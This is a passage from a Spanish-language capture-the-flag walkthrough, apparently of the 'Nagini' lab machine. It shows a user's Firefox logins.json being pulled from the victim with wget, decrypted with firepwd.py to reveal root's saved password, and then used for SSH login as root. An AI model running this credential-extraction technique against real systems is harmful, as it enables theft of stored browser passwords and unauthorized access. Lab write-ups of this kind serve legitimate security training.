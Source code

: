 Para esta herramienta, únicamente necesitamos el archivo **logins.json** que se encuentra en el directorio `.mozilla/firefox`. Podemos descargarlo, si como **hermoine o snape** nos posicionamos ahí y levantamos un servidor con **Python**, que sí lo tenemos en la máquina víctima:
```bash
hermoine@Nagini:~/.mozilla$ which python3
/usr/bin/python3
```

Actívalo y con **wget**, obtén ese archivo:
```bash
wget http://192.168.1.006:4433/logins.json
--2024-11-14 14:44:11--  http://192.168.1.006:4433/logins.json
Connecting to 192.168.1.006:4433... connected.
HTTP request sent, awaiting response... 200 OK
Length: 593 [application/json]
Saving to: ‘logins.json’

logins.json    100%[==================>]     593  --.-KB/s    in 0.001s  

2024-11-14 14:44:11 (729 KB/s) - ‘logins.json’ saved [593/593]
```
Bien.

Por último, ubicamos el archivo **logins.json** junto al script y lo ejecutamos:
```bash
python3 firepwd.py
globalSalt: b'db8e223cef34f55b9458f52286120b8fb5293c95'
 SEQUENCE {
   SEQUENCE {
...
...
...
...
...
 }
entrySalt: b'11c73a5fe855de5d96e9a06a8503019d00efa9e4'
b'233bb64646075d9dfe8c464f94f4df235234d94f4c2334940808080808080808'
decrypting login/password pairs
http://nagini.hogwarts:b'root',b'...'
```
Al final, volvimos a obtener las credenciales del **Root**.

Ya solo probamos la contraseña que obtuvimos y obtenemos el último horocrux:
```bash
ssh root@192.168.1.006
root@192.168.1.006's password: 
Linux Nagini 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr  4 18:01:59 2021
root@Nagini:~# ls
horcrux3.txt
root@Nagini:~# cat horcrux3.txt 
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   


```